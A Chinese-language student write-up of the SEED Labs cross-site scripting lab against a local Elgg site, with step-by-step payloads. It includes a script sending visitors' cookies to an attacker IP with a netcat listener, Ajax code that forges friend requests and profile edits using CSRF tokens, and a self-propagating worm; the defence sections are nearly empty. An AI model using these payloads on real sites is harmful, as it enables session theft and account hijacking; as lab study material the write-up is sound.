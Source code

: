 # Cross-Site Scripting Attack

## Pre-Experiment

Cross-site scripting (XSS) 跨站脚本攻击. 

在缺乏对危险内容 (恶意代码片段等) 过滤的网站中, 可能存在恶意用户提交危险内容, 当正常用户浏览访问危险内容的时候, 自己的网页会被危险内容篡改. 

::: tip
Cross-site scripting 的英文首字母缩写本应为CSS, 但是吧, 所以将 Cross (意为"交叉") 改以交叉形的 X 做为缩写.
:::

[地址](https://seedsecuritylabs.org/Labs_16.04/Web/Web_XSS_Elgg/)

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_XSS_Elgg.pdf)

[wiki](https://zh.wikipedia.org/wiki/跨網站指令碼)


- HTTP 
- JavaScript
- Ajax


在下载的 Ubuntu 中包含了一个名为 Elgg 的 Web 应用, 它在路径 `/var/www/XSS/Elgg/` 下, 本地浏览器访问 `http://www.xsslabelgg.com`, 实验指导中给出了相应的用户信息. 

为了方便测试, 可以打开两个虚拟机方便登上两个不同账号, 相互访问吗, 配置其中一个虚拟机的 `/etc/hosts` 将 `127.0.0.1` 修改为另一个虚拟机的 IP. 

<!-- 此外, 使用 `console.log` 来代替 `alert` 可能更好的体验.  -->

## T1 Posting a Malicious Message to Display an Alert Window

某个用户在自己的 profile 页面中输入一段 JS 片段, 其他用户访问此用户的 profile 页面时, JS 片段会被自动加载执行. 

``` HTML
<script>alert('XSS');</script>
```
::: warning 注意
实验指导中的单引号是非法字符. 
:::

## T2 Posting a Malicious Message to Display Cookies

在 T1 的基础上将单纯的 `alert` 修改为能够获取访问用户的 Cookies 的 JS 片段. 

``` HTML
<script>alert(document.cookie);</script>
```

还可以获取其他需要的有价值数据. 

## T3 Stealing Cookies from the Victim’s Machine

在 T2 中, 我们能够获取访问用户的 Cookies 数据, 但是作为攻击者, 这些数据是看不到的, 所以, 我们希望在获取数据之后直接发送给攻击者

作为攻击者, 我们可以利用系统中的 netcat 工具, 监听 5555 端口, 
``` sh
nc -l 5555 -v
```
同时在自己的 profile 页面中插入 (修改 src 中的 ip 为攻击者的 ip):
``` HTML
<script>
document.write('<img src = http://10.1.2.5:5555?c=' + escape(document.cookie) + ' >');
</script>
```
利用 `img` 标签, 受害者在获取 "图片" 时会自动发送不该发送的数据. 

## T4 Becoming the Victim’s Friend

让受害者直接添加攻击者为好友. 这里会用到很有年代感的 Ajax. 

首先需要尝试添加好友, 观察浏览器发送的请求. 可以得到:
``` http
http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1580819905&__elgg_token=8a8mQrbPSXQooe1smJqxkQ&__elgg_ts=1580819905&__elgg_token=8a8mQrbPSXQooe1smJqxkQ
```

这里参数 friend 是攻击者 ID, 也就是 Samy 的 ID, __elgg_ts 是什么不清楚, __elgg_token 是什么不清楚. 

拼装 JS . 
``` HTML
<script type="text/javascript">
    window.onload = function () { 
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        // 拼装请求 URL , 47 是 Samy 的 id
        var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=" + ts + "&__elgg_token=" + token + "&__elgg_ts=" + ts + "&__elgg_token=" + token; 
        // Ajax
        var Ajax=null;
        Ajax=new XMLHttpRequest(); 
        Ajax.open("GET",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com"); 
        Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded"); 
        Ajax.send();
    } 
</script>
```

::: tip
这一段内容应该放入到 Samy Profile 页面 about me 的文本框中, 并选择 HTML 模式输入, 默认的文本模式会在代码片段边上插入一些不该有的 HTML 内容. 
:::

例如 Alice 访问 Samy 的 profile 页面, 再到自己的 friend 页面中, 就会发现 "好友" Samy. 

## T5 Modifying the Victim’s Profile

修改受害者的 profile, 和 T4 对应, 这里需要用 Ajax 发送一个 POST 请求. 

在发送自己的 POST 请求之前, 我们需要查看修改 profile 时, 浏览器发送的请求, 尤其关注 DataForm. 

``` HTML {8,10,17}
<script type="text/javascript"> 
    window.onload = function() {
        var userName=elgg.session.user.name;
        var guid = "&guid=" + elgg.session.user.guid;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        // 组装需要 POST 的数据
        var content = 
            "__elgg_token=" + token + "&__elgg_ts=" + ts + "&name=" + userName + 
            "&description=&accesslevel[description]=2&briefdescription=;;;;;;;;;;;;;;;;" + 
            "&accesslevel[briefdescription]=2&location=&accesslevel[location]=2" + 
            "&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2" + 
            "&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2" + 
            "&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=" + 
            "&accesslevel[twitter]=2&guid=" + guid; 
        var samyGuid = 47; 
        if (elgg.session.user.guid != samyGuid) {
            var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
            // AJax
            var Ajax=null;
            Ajax = new XMLHttpRequest(); 
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content); 
        }
    }
</script>
```
8 行 content 就对应 POST 请求中的 DataForm, 可以将其中的 `briefdescription` (10 行) 修改为 `;;;;;;;;;;;;;;;;`, 这样, 用户访问 Samy 主页时, 自己的 profile 中的 description 会被修改为多个分号. 

17 行的 if 判断是为了防止 Samy 自己被自己攻击. 

## T6 Writing a Self-Propagating XSS Worm

编写 XSS 蠕虫加速传播. 我们需要让用户访问攻击者 profile 时, 自动加载运行危险的 JS 代码, 这段代码会修改访问者的 profile 并使其成为攻击者.  

结合 T1 中的操作, 可以将 T5 中的 JS 部分提取成一个 JS 文件, 比如 test.js 文件, 姑且放到 `/var/www/XSS/Elgg/` 路径下, 并对 content 部分进行修改,将分号替换成:
``` HTML
<script type='text/javascript' src='www.xsslabelgg.com/test.js'> </script>
```
我们希望在访问 Samy profile 页面时, test.js 可以被加载运行, test.js 的 content 部分被修改为:
``` JS {4}
var content = 
    "__elgg_token=" + token + "&__elgg_ts=" + ts + "&name=" + userName + 
    "&description=&accesslevel[description]=2" + 
    "&briefdescription=<script type='text/javascript' src='www.xsslabelgg.com/test.js'></script>" + 
    "&accesslevel[briefdescription]=2&location=&accesslevel[location]=2" + 
    "&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2" + 
    "&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2" + 
    "&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=" + 
    "&accesslevel[twitter]=2&guid=" + guid; 
```
Samy 自己的 profile 页面内的 description 也添加那段短短的 HTML 并提交. 

这时候, 让 Alice 访问 Samy, 他的 profile 会被修改, 同时他也具备了攻击他人的能力, 当 Boby 访问 Alice 主页的时候, 他的 profile 也会被修改也会成为一个新的攻击者. 

## T7 Countermeasures
实验项目自带了安全措施, 照做. Why

## 防御 XSS 攻击的建议

[美团技术团队-前端安全系列（一）：如何防止XSS攻击？](https://juejin.im/post/5bad9140e51d450e935c6d64)

### 过滤用户提交的内容

### 设置输入类型
